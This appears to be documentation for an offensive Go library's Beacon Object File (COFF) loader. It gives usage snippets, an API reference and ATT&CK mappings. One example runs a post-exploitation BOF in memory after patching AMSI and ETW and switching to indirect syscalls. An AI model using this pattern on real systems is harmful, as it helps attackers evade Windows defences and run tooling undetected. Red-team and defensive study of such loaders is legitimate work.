


# BOF (COFF) Loader

[<- Back to PE Overview](README.md)

**MITRE ATT&CK:** [T1059 - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
**D3FEND:** [D3-EFA - Executable File Analysis](https://d3fend.mitre.org/technique/d3f:ExecutableFileAnalysis/)

---

## For Beginners

Cobalt Strike introduced Beacon Object Files (BOFs) -- small compiled C programs in COFF format that run inside the beacon process. They are powerful post-exploitation tools, but normally you need Cobalt Strike to use them.

**Running CobaltStrike plugins without CobaltStrike.** The BOF loader parses the COFF object file, allocates executable memory, applies relocations, finds the entry point function, and calls it -- all in-process, without writing anything to disk.

---

## How It Works

### COFF Loading Process



### COFF Structure



### Relocation Types

The loader supports three x64 COFF relocation types:

| Type | Value | Description |
|------|-------|-------------|
| `IMAGE_REL_AMD64_ADDR64` | 0x0001 | 64-bit absolute address |
| `IMAGE_REL_AMD64_ADDR32NB` | 0x0003 | 32-bit image-base relative |
| `IMAGE_REL_AMD64_REL32` | 0x0004 | 32-bit RIP-relative |

---

## Usage

### Load and Execute a BOF

```go
import "github.com/oioio-space/maldev/pe/bof"

// Load COFF object file
data, _ := os.ReadFile("whoami.o")
b, err := bof.Load(data)
if err != nil {
    log.Fatal(err)
}

// Execute with arguments (BOF convention: char* data, int len)
args := []byte("argument data")
output, err := b.Execute(args)
if err != nil {
    log.Fatal(err)
}
```

### Custom Entry Point

```go
b, _ := bof.Load(data)
b.Entry = "main"  // default is "go"
b.Execute(nil)
```

### BOF from Embedded Data

```go
import (
    _ "embed"
    "github.com/oioio-space/maldev/pe/bof"
)

//go:embed bofs/enum_users.o
var enumUsersBOF []byte

func runBOF() error {
    b, err := bof.Load(enumUsersBOF)
    if err != nil {
        return err
    }
    _, err = b.Execute(nil)
    return err
}
```

---

## Combined Example: BOF with Evasion

```go
package main

import (
    "os"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/pe/bof"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // Indirect syscalls for evasion
    caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewTartarus())
    defer caller.Close()

    // Patch AMSI + ETW before running BOF
    evasion.Apply(caller, amsi.Technique(), etw.Technique())

    // Load and execute BOF
    data, _ := os.ReadFile("sa-whoami.x64.o")
    b, err := bof.Load(data)
    if err != nil {
        panic(err)
    }

    if _, err := b.Execute(nil); err != nil {
        panic(err)
    }
}
```

---

## Advantages & Limitations

### Advantages

- **No Cobalt Strike needed**: Run the large ecosystem of public BOFs independently
- **In-memory execution**: COFF loaded and executed entirely in memory
- **Standard COFF**: Compatible with any x64 COFF object file (gcc, MSVC, clang)
- **Relocation support**: Handles ADDR64, ADDR32NB, and REL32 relocations
- **Custom entry points**: Not limited to the default `go` symbol

### Limitations

- **x64 only**: Machine type 0x8664 enforced -- no x86 or ARM support
- **RWX memory**: VirtualAlloc with PAGE_EXECUTE_READWRITE is detectable
- **No BOF API**: Does not implement Cobalt Strike's internal BOF API (BeaconPrintf, etc.)
- **Single .text section**: Relocations only applied to .text -- multi-section BOFs may not fully work
- **No output capture**: Return value is `nil` -- BOF output goes to stdout/process memory

---

## Compared to Other Implementations

| Feature | maldev (pe/bof) | COFFLoader | RunOF | InlineExecute-Assembly |
|---------|-----------------|-----------|-------|------------------------|
| Language | Go | C | Rust | C# |
| Relocation types | 3 (ADDR64, ADDR32NB, REL32) | Full | Full | N/A |
| BOF API support | No | Yes | Yes | N/A (.NET) |
| Output capture | No | Yes | Yes | Yes |
| x86 support | No | Yes | No | N/A |
| In-process | Yes | Yes | Yes | Yes |

---

## API Reference

### BOF

```go
type BOF struct {
    Data  []byte  // Raw COFF data
    Entry string  // Entry point symbol name (default: "go")
}

// Load parses a COFF object file from bytes.
func Load(data []byte) (*BOF, error)

// Execute runs the BOF's entry point with arguments.
func (b *BOF) Execute(args []byte) ([]byte, error)
```
